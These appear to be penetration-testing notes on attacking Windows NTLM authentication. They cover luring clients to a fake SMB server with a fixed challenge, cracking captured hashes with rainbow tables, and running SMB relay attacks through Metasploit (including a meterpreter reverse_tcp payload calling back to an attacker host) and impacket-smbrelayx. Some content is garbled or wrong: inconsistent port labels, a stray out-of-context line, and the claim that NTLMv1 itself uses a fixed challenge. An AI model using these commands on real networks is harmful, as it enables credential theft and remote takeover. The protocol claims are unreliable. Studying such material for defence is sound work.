



NTLM (U:389,445, T:139, 88)
NT LAN Manager
U:389 - LDAP services
U:445 - Microsoft-DS services (SMB over TCP)
T:139 - NetBIOS Session services
T:88 - Kerberos services

# LM/NTLM vs NTLMv1/NTLMv2

| Term                | Usage                                                                                                                                  | Acquisition                                                                          | Attack Potential             |
| ------------------- | -------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------ | ---------------------------- |
| LM Hash             | **Storing** passwords<br>on Windows machines or Domain Controllers.                                                                    | **Dumping**<br>SAM/NTDS(ntds.dit file) Database, LSASS memory on Domain Controllers. | crack, pass-the-hash attacks |
| NT Hash / NTLM Hash | **Storing** passwords<br>on Windows machines or Domain Controllers.                                                                    | **Dumping**<br>SAM/NTDS(ntds.dit file) Database, LSASS memory on Domain Controllers. | crack, pass-the-hash attacks |
| NTLMv1 / Net-NTLMv1 | Challenge-response **network authentication**<br>(client/server authentication)<br>Involves both NT and LM hashes in authentication.   | **Captured**<br>by spoofing using responder or Inveigh.                              | crack, hash relay attacks    |
| NTLMv2 / Net-NTLMv2 | Challenge-response **network authentication**<br>(client/server authentication)<br>Involves only NTLM hash (NTHash) in authentication. | **Captured**<br>by spoofing using responder or Inveigh.                              | crack, hash relay attacks    |

- **Functionality**: Allows applications to act as intermediaries between clients and AD for authentication.

# NetNTLM authentication scheme




# Server impersonation - Capture the client response (Type 3 message) in NTLMv1  authentication protocols.



1. **Objective:** Capture the client response (Type 3 message) in LM and NTLMv1 authentication protocols.
    
2. **Methods:**
    
    - **Option 1:** Force the client to initiate a connection to a fake server.
    - **Option 2:** Use Man-in-the-Middle techniques to sniff the client response.
3. **Exploitation Process:**
    
    - Set up a listening SMB service (e.g., Metasploit module) on a fake server with a fixed challenge (1122334455667788).
    - Use SMB authentication to force the client to connect to the fake server.
    - Capture the client's encrypted response, including LMHASH and NTHASH.
    - Do not forget to set Metasploit to automaticaly save the hashes to file.
    
1. **Tools:**
    
    - Metasploit module: auxiliary/server/capture/smb
5. **Hash Cracking:**
    
    - Use rainbow tables for the fixed 8-byte server challenge (1122334455667788).
    - No timestamp or nonce in Type 3 message allows the use of rainbow tables.
6. **Initiating NTLM Protocol:**
    
    - Embed Universal Naming Convention (UNC) path (\SERVER_IP\SHARE) in an email or web page to force SMB authentication.
7. **Observations:**
    
    - Challenge response remains the same for every connection due to the fixed challenge.
    - LMHASH and NTHASH represent client response; differences indicate LM or NT hashes in use.
    - Passwords ≤ 7 characters result in the last 8 bytes of NTLM response always being **2f85252cc731bb25**.
8. **Cracking Hashes:**
    
    - Utilize various tools (online/offline) for cracking captured hashes.
    - Credentials saved by Metasploit for use with tools like John the Ripper.
9. **Important Note:**
    
    - NTLMv1 protocols' randomness is defeated using the crafted challenge 1122334455667788, demonstrating a lack of true randomness in the protocol.
## Cracking captured LM hashes using rainbow tables or other tools
```bash
$ cat hashes # file containing captured hashes from $ msf> capture/smb
$ cd halflmhash # go to folder with rainbow tables
$ sudo rcrack_mt -h <8 bytes of LM HASH> -t 4 *.rti # rainbowcrack captured lmhash (8bytes= 16 first chars) using all rainbow tables  
# rcrack returns plaintext of part of hash
$ sudo perl netntlm --file <path/to/hashhes_file> --seed <found_plaintext_of_found_hash> # cracks full password, returns password in full uppercase
$ sudo perl netntlm --file <path/to/hashhes_file> --seed <found_uppercase_password> # returns case sensitive password
```
# SMB Relay Attack on NTLMv1/NTLMv2




## $ msf > smb_relay
```bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 172.16.5.101
set SMBHOST 172.16.5.10
exploit
```
## $ impacket_smbrelayx
```bash
$ impacket-smbrelayx -h <TargetServerIP> [-e <file>] # SMB relay attack when MitM, [execute <file>(msfvenom payload)] 
```
## $ responder
![[responder (NTLM relay attack)]]
# Changes in NTLMv2 vs NTLMv1:

NTLMv2 was introduced as an improvement over NTLMv1 to address several security weaknesses.

1. **Challenge Generation:**
	- NTLMv1 uses a fixed 8-byte challenge, making it susceptible to attacks
	- NTLMv2 employs a dynamic challenge generated by the server, enhancing security.
1. **Hash Algorithm:**
	- NTLMv1 relies on a relatively weaker hash algorithm, making it vulnerable to rainbow table attacks.
	- NTLMv2 incorporates a more secure hash algorithm, making rainbow table attacks less effective.
1. **Timestamp Inclusion:**
	- NTLMv1 does not include a timestamp in the Type 3 message, limiting its resistance against replay attacks.
	- NTLMv2 includes a timestamp in the response, mitigating replay attacks and enhancing overall security.
1. **Session Security:**
	- NTLMv1 lacks session security features, making it susceptible to various attacks.
	- NTLMv2 incorporates session security mechanisms, adding an extra layer of protection against certain attacks.
1. **Length of Response:**
	- NTLMv1 responses are fixed in length, making it easier for attackers to analyze and exploit.
	- NTLMv2 responses can vary in length, depending on factors such as the presence of extended session security, making attacks more complex.
1. **Server Authentication:**
	 - NTLMv1 is more prone to server impersonation attacks.
	 - NTLMv2 enhances server authentication, reducing the risk of unauthorized server access.
1. **Overall Security Posture:**
	 - NTLMv2 is considered more secure due to its dynamic challenge, improved hash algorithm, timestamp inclusion, and enhanced session security.
1. **Transition and Compatibility:**
	 - Transitioning from NTLMv1 to NTLMv2 is recommended for improved security.
	 - Compatibility concerns may arise during the transition, and system administrators should ensure proper configuration and support.